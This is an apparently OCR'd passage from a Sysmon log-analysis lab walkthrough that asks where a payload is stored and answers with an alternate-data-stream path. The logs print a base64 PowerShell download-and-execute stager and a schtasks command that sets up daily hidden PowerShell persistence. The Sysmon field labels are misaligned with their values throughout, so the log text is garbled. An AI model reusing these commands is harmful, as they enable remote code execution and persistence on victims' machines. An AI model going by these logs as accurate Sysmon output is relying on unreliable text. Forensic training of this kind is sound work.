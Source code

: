 ```
               ZwBpAG4ALwBwAHIAbwBjAGUAcwBzAC4AcABoAHAAJwA7ACQAdwBjAC4ASABFAEEARABlAHIAUwAuAEEARABkACgAIgBDAG8AbwBrAGkA
               ZQAiACwAIgBzAGUAcwBzAGkAbwBuAD0AegBnADcALwBJAGgATAB5AEYAQQBHAHgAUgB1AGkAdwBRADUAMgB3AHcAdAAzAG4ATgBxAHMA
               PQAiACkAOwAkAEQAYQBUAGEAPQAkAFcAQwAuAEQATwB3AE4AbABvAEEARABEAEEAdABBACgAJABzAEUAcgArACQAdAApADsAJABpAHYA
               PQAkAEQAYQB0AEEAWwAwAC4ALgAzAF0AOwAkAGQAYQB0AGEAPQAkAGQAQQB0AEEAWwA0AC4ALgAkAGQAQQBUAEEALgBsAGUAbgBHAHQA
               SABdADsALQBqAE8ASQBuAFsAQwBoAGEAcgBbAF0AXQAoACYAIAAkAFIAIAAkAGQAQQB0AGEAIAAoACQASQBWACsAJABLACkAKQB8AEkA
               RQBYAA== > c:\users\q\AppData:blah.txt"
               OriginalFileName: C:\Users\q\
               CommandLine: DESKTOP-O153T4R\q
               CurrentDirectory: {b231f4ab-a303-5a66-0000-002087720500}
               User: 0x57287
               LogonGuid: 1
               LogonId: 0x0
               TerminalSessionId: 0
               IntegrityLevel: {b231f4ab-f2e9-5a77-0000-0010cb670802}
               Hashes: 11020
               ParentProcessGuid: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
               ParentProcessId: 0
               ParentImage: %21
               ParentCommandLine: %22
```

What is the full path of the payload location in Investigation 3.2?
`c:\users\q\AppData:blah.txt`

```
PS C:\Users\THM-Analyst> Get-WinEvent -Path C:\Users\THM-Analyst\Desktop\Scenarios\Investigations\Investigation-3.2.evtx -FilterXPath '*/System/EventID=1 and */EventData/Data[@Name="Image"]="C:\Windows\System32\schtasks.exe"' | fl


TimeCreated  : 2/5/2018 7:08:53 AM
ProviderName : Microsoft-Windows-Sysmon
Id           : 1
Message      : Process Create:
               RuleName: 2018-02-05 07:08:53.750
               UtcTime: {b231f4ab-0305-5a78-0000-00101b276402}
               ProcessGuid: 8992
               ProcessId: 0
               Image: 10.0.16299.15 (WinBuild.160101.0800)
               FileVersion: Task Scheduler Configuration Tool
               Description: Microsoft® Windows® Operating System
               Product: Microsoft Corporation
               Company: "C:\WINDOWS\system32\schtasks.exe" /Create /F /SC DAILY /ST 09:00 /TN Updater /TR
               "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -NonI -W hidden -c \"IEX
               ([Text.Encoding]::UNICODE.GetString([Convert]::FromBase64String($(cmd /c ''more <
               c:\users\q\AppData:blah.txt'''))))\""
               OriginalFileName: C:\Users\q\
               CommandLine: DESKTOP-O153T4R\q
               CurrentDirectory: {b231f4ab-a303-5a66-0000-002087720500}
               User: 0x57287
               LogonGuid: 1
               LogonId: 0x0
               TerminalSessionId: 0
               IntegrityLevel: {b231f4ab-f2e9-5a77-0000-0010cb670802}
               Hashes: 11020
               ParentProcessGuid: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
               ParentProcessId: 0
               ParentImage: %21
```